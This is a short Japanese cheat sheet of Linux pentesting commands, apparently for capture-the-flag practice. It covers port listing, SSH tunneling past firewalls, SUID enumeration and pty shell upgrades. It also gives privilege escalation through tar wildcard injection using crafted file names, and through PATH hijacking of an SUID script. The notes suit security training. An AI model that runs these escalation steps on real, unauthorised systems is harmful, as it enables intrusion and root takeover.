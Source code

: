 ### TCP/UDPのポート開放状態を確認したいとき  
#### ss -nltup  
-n : ポート番号をサービス名変換しない(例えば:httpと表示せず:80と表示する)  
-l : Listen(待ち受け)ポートのみを表示する  
-t : TCP を表示する  
-u : UDP を表示する  
-p を付けて "ss -nltup" を実行すると、どのプロセスがそのポートを開放しているのかが分かります。  

### SSHのファイヤーウォールを超えて外部から目的サーバにアクセスする  
SSH の機能の内の一つであるポートフォワーディングを使ってトンネルを掘ることによって, ファイヤーウォールを超えて外部から目的サーバにアクセスすることができる  
```$ ssh -L (ローカルで使用するポート):(目的サーバのアドレス):(目的サーバで待ち受けてるポート番号) ユーザ名@IPアドレス```  

### SUIDの探索
``` find / -perm -u=s -type f 2>/dev/null ```  

### 定期自動実行されているものを確認する  
``` cat /etc/crontab ```  
  


### シェル起動  
``` python -c 'import pty;pty.spawn("/bin/bash")' ```  
なお、permission deniedでlinpeasをアップできない場合は、/tmp上でwgetするとささる  

### ワイルドカードの脆弱性  
chown , tar , rsyncなどで特定のオプションを使用することで顕在化する可能性がある  
特別に細工されたファイル名を使用することで、  
攻撃者は、他のユーザー(rootも含む)が実行するシェルコマンドに任意の引数を注入することができる。  
#### tarの任意コマンド実行によるポイズニング  
・-checkpoint[=NUMBER]  
・-checkpoint-action=ACTION  
これらのオプションはチェックポイント(NUMBER , ACTION)後に  
指定されたアクションを使用することができる  
→ワイルドカードインジェクションに繋がる！  
  
例:  
``` -checkpoint=1 ```  
``` -checkpoint-action=exec=sh shell.sh ```  
shell.shのプログラムは以下  
``` chmod 777 /root ```  

詳しくは下記の記事を参考に(両方とも同じ記事だけど一応のために魚拓も)  
https://www.hackingarticles.in/skynet-tryhackme-walkthrough/  
https://web.archive.org/web/20230608070440/https://www.hackingarticles.in/skynet-tryhackme-walkthrough/  
  
### フルパスでないコマンドが入っているSUIDなシェルスクリプトから権限昇格する
例えば以下のようなコマンドを実行するシェルスクリプト(/usr/bin/menu)があったとする
```curl -I localhost```

1."/bin/sh"という文字列をcurlというファイルに出力する
2.生成されたcurlファイルに対してchmodで777にしてあげる
3.環境パスを現在のディレクトリにする
4.脆弱性のあるシェルスクリプトを実行すると権限昇格

以下が権限昇格の具体的な手順
```
echo /bin/sh > curl
chmod 777 curl
export PATH=現在のディレクトリ:$PATH
/usr/bin/menu
```
